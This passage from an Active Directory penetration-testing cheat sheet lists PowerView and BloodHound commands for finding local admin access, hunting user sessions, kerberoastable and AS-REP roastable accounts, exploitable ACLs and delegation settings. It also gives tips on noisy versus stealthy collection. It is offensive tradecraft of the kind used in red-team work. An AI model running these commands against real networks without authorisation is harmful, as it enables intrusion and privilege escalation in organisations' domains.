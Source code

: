 ### Lateral Movement Enumeration With PowerView

```powershell
# Find existing local admin access for user (noisy 🚩)
Find-LocalAdminAccess

# Hunt for sessions of interesting users on machines where you have access (also noisy 🚩)
Find-DomainUserLocation -CheckAccess | ?{$_.LocalAdmin -Eq True }

# Look for kerberoastable users
Get-DomainUser -SPN | select name,serviceprincipalname

# Look for AS-REP roastable users
Get-DomainUser -PreauthNotRequired | select name

# Look for interesting ACL within the domain, filtering on a specific user or group you have compromised
## Exploitation depends on the identified ACL, some techniques are discussed in this cheat sheet
## Example for GenericWrite on user: Disable preauth or add SPN for targeted kerberoast (see below)
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "UserOrGroupToQuery"}

# Look for servers with Unconstrained Delegation enabled
## If available and you have admin privs on this server, get user TGT (see below)
Get-DomainComputer -Unconstrained

# Look for users or computers with Constrained Delegation enabled
## If available and you have user/computer hash, access service machine as DA (see below)
Get-DomainUser -TrustedToAuth | select userprincipalname,msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth | select name,msds-allowedtodelegateto
```

### BloodHound

Use `Invoke-BloodHound` from `SharpHound.ps1`, or use `SharpHound.exe`. Both can be run reflectively, get them [here](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors). Examples below use the PowerShell variant but arguments are identical.

```powershell
# Run all checks, including restricted groups enforced through the domain  🚩
Invoke-BloodHound -CollectionMethod All,GPOLocalGroup

# Running LoggedOn separately sometimes gives you more sessions, but enumerates by looping through hosts so is VERY noisy 🚩
Invoke-BloodHound -CollectionMethod LoggedOn
```

For real engagements definitely look into the [various arguments](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html) that BloodHound provides for more stealthy collection and exfiltration of data.

### Kerberoasting

#### Automatic
